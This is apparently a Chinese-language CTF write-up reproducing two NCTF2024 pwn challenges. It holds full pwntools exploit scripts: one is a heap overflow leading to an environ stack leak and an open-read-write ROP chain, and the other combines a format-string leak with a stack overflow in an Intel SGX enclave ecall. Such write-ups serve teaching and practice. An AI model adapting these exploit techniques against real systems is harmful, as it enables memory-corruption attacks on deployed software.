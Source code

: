 ```yaml
---
tags: [ctf]
comments: true
author: ldz
---
```

# NCTF2024【复现】

注：由于本人实在太菜，因此没有做出任何题目，仅对所有赛题进行复现

## diary

是基于fork的server，因此不能采用system(/bin/sh);

**为什么交互式 Shell 会失败？**

- **文件描述符继承是关键：** 当孙子进程通过 `exec` 启动 `/bin/sh` 时，它**继承了创建它的进程（即原服务器子进程）的文件描述符**。
- **标准输入/输出/错误指向哪里？** 在典型的 `fork` 服务器子进程中，文件描述符 0 (标准输入 stdin), 1 (标准输出 stdout), 和 2 (标准错误 stderr) 通常都指向**子进程**用来与客户端通信的那个网络连接套接字 `conn_fd`。因为子进程是从父进程那里继承了这个 `conn_fd`，并且通常会用它来进行读写。
- 失败的原因：
  1. **`/bin/sh` 的感知：** 当 `/bin/sh` 启动时，它检查其标准输入输出。发现它们连接到一个套接字而不是一个终端(TTY/PTY)时，它可能不会进入完全的交互模式。
  2. **标准 I/O 缓冲：** 这是最常见的问题。当 `/bin/sh` (在孙子进程中) 向标准输出 (FD 1，指向 `conn_fd`) 写入数据时（比如命令提示符或命令执行结果），数据并不会立即通过网络发送。因为标准输出连接到套接字时，通常使用**全缓冲 (Full Buffering)**。数据会被暂存在内存缓冲区里，直到缓冲区满了，或者 `/bin/sh` 进程显式地刷新缓冲区（`fflush`）或退出时，数据才会被真正写入 `conn_fd` 发送出去。这就导致了交互的延迟或完全不响应。标准输入也可能存在类似问题。
  3. **子进程可能提前关闭 FD：** 在某些服务器逻辑下，子进程可能在处理完合法请求（或者发生错误）后、但在 `system()` 被非预期地调用之前，就已经关闭了 `conn_fd`。这样，即使孙子进程启动了 `/bin/sh`，它的输入输出也无处可去。
  4. **`system()` 本身的机制：** 如前所述，`system()` 通过 `sh -c` 执行命令，这主要是为了执行单个命令并获取结果，而不是为了启动一个持久的交互式会话。

***另外地\***，在orw途中，由于标准输入0、标准输出1、标准错误2都被绑定在socket上面，因此如果直接打印到fd=0、1、2我们无法看见，最终做法是write(4,flag,len);，为什么呢？

程序fork时，父进程中已使用的 FD 有 0, 1, 2 (标准流) 和 3 (`listen_fd`)。因此，`accept()` 返回的**新的连接套接字 `conn_fd`** 得到的编号是 **4**，而子程序关闭listen_fd，因此编号为3的fd就空出来了作为之后open(flag)的fd，而write写向fd=4即socket我们就可以得到flag

![img](../images/nctf1.png)

漏洞点在于malloc(len+1)

![img](../images/nctf2.png)

如果Len为0xffffffff的话malloc会malloc(0)，**而我们使用对应的Len进行堆溢出**

***堆地址：\***通过溢出一个0从而打印出堆地址。

***libc地址：\***通过申请一个0x2000000的堆块塞满bss和libc的地址，打印leak出libc

通过environ泄露栈地址，**environ是一个与栈有固定偏移的地址，可以绕过ASLR**

把chunk分配到栈，最后orw读取文件

```
┌──(kali㉿kali)-[~/Desktop/nctf]
└─$ cat exp       
from pwn import *
k = process('./pwn')
io = remote("127.0.0.1",9999)
libc = ELF('libc.so.6')
context(os='linux',arch='amd64')
def add(len,con):
    io.send(b'1')
    io.sendafter(b'Input length:\n',str(len).encode())
    io.sendlineafter(b'Input content:\n',con)
def dele(idx):
    io.send(b'2')
    io.sendafter(b'Input index:\n',str(idx).encode())
def edit(idx,con):
    io.send(b'3')
    io.sendafter(b'Input index:\n',str(idx).encode())
    io.sendlineafter(b'Input content:\n',con)
def show(idx):
    io.send(b'4')
    io.sendafter(b'Input index:\n',str(idx).encode())

add(0x80,b'a')
add(0xffffffff,b'\x00')
add(0x80,b'a')
add(0x80,b'a')
edit(1,b'a'*0x20)
show(2)
log.info("[*]overflow the \x00 to cover the pointer and then leak the address")
io.recvuntil(p64(0x21))
heap_base = u64(io.recv(8)) - 0x370
log.info("[*]heap addr : "+hex(heap_base))
dele(1)
add(0x2000000,b'a')
show(2)
io.recvuntil(p64(0x21))
libc_base = u64(io.recv(8)) - 0x7f6e3c800010 + 0x7f6e3ea00000
log.info("[*]libc addr : "+hex(libc_base))
environ = libc_base + 0x7f6e3ec0ad58 - 0x7f6e3ea00000
log.info("[*]envi addr : "+hex(environ))
dele(1)
add(0xffffffff,b'\x00')
edit(1,b'\x00'*0x18 + p64(0x21) + p64(environ) + p64(0x81))
show(2)
io.recvuntil(b'Content:\n')
stack_addr = u64(io.recv(8)) + 8 + 0x7ffd95677750 - 0x7ffd956779a8
log.info(hex(stack_addr)) 
#this stack addr is Menu function's ret addr
pop_rdi_ret = libc_base + 0x10f75b
pop_rsi_ret = libc_base + 0x10f759
#pop_rsi_pop_r12_ret
magic = libc_base + 0xb0133
#mov rdx,rbx; pop rbx; pop r12; pop rbp; retn
pop_rbx_ret = libc_base + 0x586e4
open = libc_base + libc.symbols['open']
write = libc_base + libc.symbols['write']
read = libc_base + libc.symbols['read']
edit(0,b'flag\x00\x00')
flag = heap_base + 0x2c0
ROP = p64(pop_rdi_ret) + p64(flag) + p64(pop_rsi_ret) + p64(0) + p64(0) + p64(open)
#OPEN_FUNC
ROP += p64(pop_rdi_ret) + p64(0x3) + p64(pop_rsi_ret) + p64(heap_base+0x50) + p64(0) + p64(pop_rbx_ret) + p64(0x30) + p64(magic) + p64(0x30) + p64(0) + p64(stack_addr+0x100) + p64(read)
ROP += p64(pop_rdi_ret) + p64(0x4) + p64(write)
print(hex(pop_rsi_ret))
edit(1,b'\x00'*0x18 + p64(0x21) + p64(stack_addr) + p64(0x101))
edit(2,ROP)
io.send(b'5')
io.interactive()
```
## unauthwarden-whoami

# 什么是intel sgx？
想象一下 SGX 是什么： 
把它想象成电脑 CPU 内部的一个“超级保险箱”（这叫做 Enclave，或者叫“飞地”）。 它可以阻止一切“外人”的使用和读写，这些“外人”包括操作系统、其他软件，甚至是能接触到电脑内存的黑客。
其于内核十分相似，都是定义了“安全区”和“不安全区”，但是其更加恐怖的一点是其使用硬件实现，断绝了更多hacker通过都内存实现getshell或者读取信息的操作，这在云计算这种你不太信任运行
环境的场景下特别有用。但是程序怎么用这个保险箱？ 普通的程序可以通过特定的入口点请求保险箱里的代码帮忙处理敏感事务（这叫 ECALL）。 保险箱里的代码处理完，有时也需要通过出口点请求
外面的程序帮忙做些普通工作（这叫 OCALL）。而下面这题的flag被存在Enclave的某个内存中，我们需要通过寻找ecall的漏洞让其将flag从“保险箱”内部打印出来。题目将一个动态链接库unauthw
arden.signed.so设置为飞地，因此漏洞多半在其内这题的漏洞点在于unauthwarden.signed.so中的ecall_print_username的fmt以及ecall_do_seal_send存在栈溢出

```
from pwn import *
env={'LD_LIBRARY_PATH': '/opt/intel/sgxsdk/lib64:$LD_LIBRARY_PATH'}
io = process('./test_app',env=env)
context(os = 'linux',arch = 'amd64',log_level='debug')
def register(usr,pwd):
    io.sendafter(b'>> ',b'2')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def login(usr,pwd):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def add(usr,pwd):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def show(idx):
    io.recvuntil(b'>> ')
    io.send(b'2')
    io.sendafter(b'Enter record index (1-5): ',str(idx).encode())
def logout():
    io.recvuntil(b'>> ')
    io.send(b'6')
def send_seal(data):
    io.recvuntil(b'>> ')
    io.send(b'4')
    if io.recv(6) == b'Sealed':
        io.sendlineafter(b'to reject.\n', b'y')
    io.sendlineafter(b'to seal: ', str(len(data)).encode())
    for i in range(0, len(data), 0x100):
        io.sendafter(b'batch):', data[i: i + 0x100])
    io.sendlineafter(b'(y/n): ', 'y'.encode())
def show_seal():
    io.recvuntil(b'>> ')
    io.send(b'5')

register(b'%3$p',b'123')
login(b'%3$p',b'123')
io.recvuntil(b'back, ')
addr = int(io.recvuntil(b'\n',drop=True).decode(),16) - 0x2719f4
log.info(hex(addr))
#gdb.attach(io)
pop_rdi_ret = addr + 0x3e34
root_pwd = addr + 0x11c020
printf = addr + 0x10B3
ret = addr + 0x1052
gdb.attach(io)
send_seal(b'?' * 256 + b'!' * 0x8 + p64(pop_rdi_ret) + p64(root_pwd) + p64(ret) + p64(printf)+b'')

io.interactive() 
```

![img](../images/nctf4.png)
